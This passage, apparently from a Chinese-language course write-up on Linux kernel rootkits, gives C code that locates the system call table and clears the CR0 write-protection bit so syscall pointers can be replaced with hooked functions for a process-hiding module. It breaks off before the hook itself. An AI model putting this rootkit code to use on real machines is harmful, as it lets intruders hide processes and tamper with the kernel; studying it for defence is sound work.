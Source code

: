 ```c
static int filter_init(void)
{	
    int i = 0;
    sys_call_table = get_lstar_sct();
    if (!sys_call_table)
    {
        printk("get_act_addr(): NULL...\n");
        return 0;
    }
    else{
        printk("sct: 0x%p\n", (unsigned long)sys_call_table);
	    return 0;
	}	
}


static void filter_exit(void)
{
    printk(KERN_INFO "hideps: module removed\n");
}


MODULE_LICENSE("GPL");
module_init(filter_init);
module_exit(filter_exit);

```



### 2.3 rootkit实现hook示例

我们已经获得了系统调用，接下来要考虑的就是如何篡改系统调用了，基本思路是将SCT中指向正常系统调用的指针改成我们自己的函数地址。由于SCT原来是有写保护的，所以我们首先要取消写保护，写完之后恢复写保护，代码：

```c
void disable_write_protection(void)
{
        unsigned long cr0 = read_cr0();
        clear_bit(16, &cr0);
        write_cr0(cr0);
}

void enable_write_protection(void)
{
        unsigned long cr0 = read_cr0();
        set_bit(16, &cr0);
        write_cr0(cr0);
}
```

接下来实现我们自己的系统调用，一般而言就是对系统原有的结果进行过滤，这里直接拿来老师的代码：
